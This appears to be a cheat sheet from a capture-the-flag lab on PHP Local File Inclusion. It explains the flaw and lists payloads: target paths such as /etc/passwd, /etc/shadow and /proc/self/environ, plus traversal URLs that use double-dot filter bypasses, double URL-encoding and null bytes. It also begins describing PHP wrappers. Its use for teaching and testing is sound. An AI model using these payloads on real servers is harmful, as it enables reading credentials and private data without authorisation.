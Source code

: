 ### Local File Inclusion (LFI)
It is a web application vulnerability that allows the attacker to include and read local files on the server. These files could contain sensitive data such as cryptographic keys, databases that contain passwords, and other private data. An LFI  vulnerability happens due to a developer's lack of security awareness. In some cases, developers need to include the content of other local files within a specific page. Suppose a developer includes files without proper input validation. In that case, the LFI vulnerability will exist as a developer should never trust user input and keep all inputs from users to be filtered and sanitized. The main issue of these vulnerabilities is the lack of input validation, in which the user inputs are not sanitized or validated, and the user controls them. The following functions cause this kind of vulnerability: include, require, include_once, require_once.

#### Payloads
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline

  ```php
  #1 - Direct file inclusion + using .. to get out the current directory (the number of .. is varies depending on the web app directory)
  http://example.thm.labs/page.php?file=/etc/passwd http://example.thm.labs/page.php?file=../../../../../../etc/passwd 
  
  #2 - Bypassing filters using ....// ('../' is removed: Double your payload)
  http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd
  http://example.com/downloads/getFile?name=..././..././..././..././etc/passwd
  
  #3 - URL encoding techniques (such as double encoding)
  http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd
  http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00
  
  #Try different encodings
  ../../etc/passwd = %2e%2e%2f%2e%2e%2fetc%2fpasswd = %252E%252E%252F%252E%252E%252Fetc%252Fpasswd
  ```

  

#### Exploiting LFI
Exploiting an LFI sometimes is limited and depends on the web application server configuration. Besides reading sensitive data, often, we can obtain remote code execution. If we are dealing with a PHP web application, then we can use a PHP-supported Wrapper. PHP provides various methods of transmission of data (Input/Output stream) to allow PHP to read from. It will enable reading data via various data type channels: 
+ **PHP filter** - the wrapper is used in LFI to read the actual PHP page content. In typical cases, it is not possible to read a PHP file's content via LFI because PHP files get executed and never show the existing code. However, we can use the PHP filter to display the content of PHP files in other encoding formats such as base64 or ROT13.
